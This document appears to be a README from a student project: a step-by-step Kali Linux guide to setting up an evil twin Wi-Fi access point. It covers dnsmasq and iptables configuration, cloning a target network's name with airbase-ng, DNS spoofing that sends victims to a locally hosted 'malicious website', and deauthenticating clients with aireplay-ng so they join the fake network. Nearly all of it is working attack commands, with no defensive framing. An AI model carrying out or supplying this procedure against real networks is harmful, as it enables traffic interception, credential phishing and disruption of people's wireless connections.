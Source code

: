 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file   
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](../screenshots/4.0-iwconfig.png)
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	![network interfaces 2](../screenshots/4.1-iwconfig.png)

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	![network interfaces](../screenshots/8.0-iwconfig.png)

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer mac addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	![airodump](../screenshots/9.0-airodump.png)

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`
	![devices](../screenshots/10.0-airodump.png)

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`  
	The Tx-Power should now read 30 dBm.

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected.
	![evil](../screenshots/12-evil_twin.png)

13. Create an interface to give the evil twin connection to the internet.  
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	Congratulations, you have setup a hotspot for yourself.
	![intercept](../screenshots/16-dnsmasq.png)
	![intercept2](../screenshots/16.1-dnsmasq.png)

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`
	
	Here is our example webpage named `index.html`
	![index](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/17-index.png)

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following will redirect anyone trying to visit http://www.example.com to our local apache server.  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only http sites work, not https sites.
	![intercept2](../screenshots/19-spoof.png)


20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
- https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
- https://www.rootsh3ll.com/evil-twin-attack/





